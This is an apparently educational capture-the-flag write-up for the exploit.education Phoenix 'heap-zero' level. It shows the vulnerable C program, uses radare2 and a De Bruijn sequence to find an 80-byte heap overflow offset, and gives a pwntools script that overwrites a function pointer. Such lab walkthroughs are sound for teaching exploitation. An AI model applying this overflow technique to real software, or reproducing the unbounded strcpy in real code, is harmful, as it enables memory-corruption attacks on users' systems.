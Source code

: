```yaml
---
description: http://exploit.education/phoenix/heap-zero/
---
```


# heap0

## Source

Luckily it gives us the source:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

## Analysis

So let's analyse what it does:

* Allocates two chunks on the heap
* Sets the `fp` variable of chunk `f` to the address of `nowinner`
* Copies the first command-line argument to the `name` variable of the chunk `d`
* Runs whatever the `fp` variable of `f` points at

The weakness here is clear - it runs a random address on the heap. Our input is copied there after the value is set and there's no bound checking whatsoever, so we can overrun it easily.

### Regular Execution

Let's check out the heap in normal conditions.

```
$ r2 -d -A heap0 AAAAAAAAAAAA            <== that's just a parameter
$ s main; pdf
[...]
0x0040075d      e8fefdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
0x00400762      488b45f8       mov rax, qword [var_8h]
[...]
```

We'll break right after the strcpy and see how it looks.

```
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x400762
```

![The Expected Two Chunks](<../../../.gitbook/assets/image (5).png>)

If we want, we can check the contents.

![Chunk with our input](<../../../.gitbook/assets/image (2) (1).png>)

![The Chunk with the Function Address](<../../../.gitbook/assets/image (3).png>)

So, we can see that the function address is there, after our input in memory. Let's work out the offset.

### Working out the Offset

Since we want to work out how many characters we need until the pointer, I'll just use a [De Bruijn Sequence](../../stack/de-bruijn-sequences.md).

```
$ ragg2 -P 200 -r
```

```
$ r2 -d -A heap0 AAABAACAADAAE...
```

Let's break **on** and **after** the `strcpy`. That way we can check the location of the pointer then immediately read it and calculate the offset.

```
[0x004006f8]> db 0x0040075d
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x40075d
```

![The chunk before the strcpy](<../../../.gitbook/assets/image (2).png>)

So, the chunk with the pointer is located at `0x2493060`. Let's continue until the next breakpoint.

```
[0x0040075d]> dc
hit breakpoint at: 0x400762
```

![Corrupted](<../../../.gitbook/assets/image (1).png>)

radare2 is nice enough to tell us we corrupted the data. Let's analyse the chunk again.

![](<../../../.gitbook/assets/image (4).png>)

Notice we overwrote the `size` field, so the chunk is much bigger. But now we can easily use the first value to work out the offset (we could also, knowing the location, have done `pxq @ 0x02493060`).

```
[0x00400762]> wopO 0x6441416341416241
80
```

So, fairly simple - 80 characters, then the address of `winner`.

## Exploit

```python
from pwn import *

elf = context.binary = ELF('./heap0')

payload = (b'A' * 80 + flat(elf.sym['winner'])).replace(b'\x00', b'')

p = elf.process(argv=[payload])

print(p.clean().decode('latin-1'))
```

{% hint style="info" %}
We need to remove the null bytes because `argv` doesn't allow them
{% endhint %}
